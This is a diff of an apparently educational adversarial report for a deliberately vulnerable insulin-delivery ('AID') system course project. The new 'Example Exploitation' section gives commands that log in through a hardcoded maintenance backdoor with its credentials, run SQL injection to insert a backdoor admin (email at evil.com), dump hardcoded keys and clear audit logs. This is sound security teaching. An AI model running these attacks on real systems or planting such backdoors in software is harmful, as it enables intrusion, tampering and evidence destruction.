

Before and after one commit to at0m-b0mb/AID-System-Security-Analysis, a Markdown page: aid-system-deployment/ADVERSARIAL_REPORT.md, the part around one of its changes. Shown at 86% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Restructure reports to match Team Logan assignment format with detailed tables and examples
Co-authored-by: at0m-b0mb <99875896+at0m-b0mb@users.noreply.github.com>

````diff
--- a/aid-system-deployment/ADVERSARIAL_REPORT.md
+++ b/aid-system-deployment/ADVERSARIAL_REPORT.md
@@ -484,21 +513,39 @@ chmod +x exploit.sh
 
 ---
 
-## Vulnerability Matrix
+## Example Exploitation
 
-| # | Vulnerability | OWASP | CWE | Location | Impact | Risk |
-|---|--------------|-------|-----|----------|--------|------|
-| 1 | Maintenance Backdoor | A01 | CWE-798 | cmd/main.go:loginInteractive | Auth Bypass | CRITICAL |
-| 2 | Hidden Admin Commands | A01 | CWE-284 | clinician/dashboard.go | Unauth Access | CRITICAL |
-| 3 | Hardcoded Keys | A02 | CWE-321 | cmd/main.go:constants | Secret Exposure | HIGH |
-| 4 | Weak Password Bypass | A02 | CWE-521 | clinician/register.go | Weak Auth | HIGH |
-| 5 | SQL Injection | A03 | CWE-89 | cmd/main.go:debugDBQuery | DB Compromise | CRITICAL |
-| 6 | Command Injection | A03 | CWE-78 | cmd/main.go:debugExport | RCE | CRITICAL |
-| 7 | Debug Info Disclosure | A05 | CWE-215 | cmd/main.go:showDebugInfo | Data Leak | HIGH |
-| 8 | Permissive Permissions | A05 | CWE-732 | cmd/main.go:debugExport | Data Access | MEDIUM |
-| 9 | Hidden Command No Log | A09 | CWE-778 | clinician/dashboard.go | No Audit | HIGH |
-| 10 | Silent Action List | A09 | CWE-223 | utils/logger.go | Log Bypass | HIGH |
-| 11 | Log Clearing | A09 | CWE-779 | clinician/dashboard.go | Evidence Loss | HIGH |
+### Maintenance Backdoor
+```bash
+./aid-system-linux
+# User ID: MAINT_ADMIN
+# Maintenance Key: AID_MAINT_2024!
+# -> Full clinician access granted!
+```
+
+### SQL Injection
+```bash
+./aid-system-linux --debug
+# Choose Option 4, inject: SELECT * FROM users;
+```
+
+### Dump Hardcoded Keys
+```bash
+strings aid-system-linux | grep -E "MAINT|S3cur3"
+```
+
+### Create Backdoor Admin
+```bash
+./aid-system-linux --debug
+# Option 4: INSERT INTO users (user_id, full_name, dob, pin_hash, email, role) VALUES ('BACKDOOR', 'Backdoor Admin', '1990-01-01', '$2y$12$xxx', 'backdoor@evil.com', 82651);
+```
+
+### Clear Audit Logs
+```bash
+# In clinician dashboard:
+# Enter option 99
+# Type CLEAR to confirm
+```
 
 ---
 
@@ -506,30 +553,13 @@ chmod +x exploit.sh
 
 ### 10-Minute Demo Structure
 
-#### Part 1: System Overview (2 minutes)
-- Explain AID System purpose and architecture
-- Show normal user workflow
-- Highlight original security features
-
-#### Part 2: A01 Broken Access Control (2 minutes)
-- Demonstrate maintenance backdoor
-- Show hidden admin commands (99, 88)
-- Explain impact on patient safety
-
-#### Part 3: A02/A03 Cryptographic & Injection (3 minutes)
-- Extract hardcoded keys from binary
-- Demonstrate weak password bypass
-- Execute SQL injection to dump credentials
-- Show command injection for RCE
-
-#### Part 4: A05/A09 Misconfig & Logging (2 minutes)
-- Show debug mode information disclosure
-- Demonstrate log clearing capability
-- Explain silent action list
-
-#### Part 5: Full Attack Chain (1 minute)
-- Run exploit.sh for automated demo
-- Show complete compromise
+| Time | Section | Presenter | Content |
+|------|---------|-----------|---------|
+| 0:00-2:00 | System Understanding | Member 1 | AID System overview, security objectives |
+| 2:00-4:00 | A01 Broken Access Control | Member 2 | Maintenance backdoor, hidden commands demo |
+| 4:00-7:00 | A02/A03 Crypto & Injection | Member 3 | Hardcoded keys, SQL injection, command injection |
+| 7:00-9:00 | A05/A09 Misconfig & Logging | Member 4 | Debug mode exposure, log manipulation |
+| 9:00-10:00 | Full Attack Chain | All | Automated exploit.sh demonstration |
 
 ### Speaking Roles
 
````
Also changed, not shown: other parts of aid-system-deployment/ADVERSARIAL_REPORT.md (+247 -197 lines), aid-system-deployment/DEMO_SUMMARY.md (+49 -24 lines).
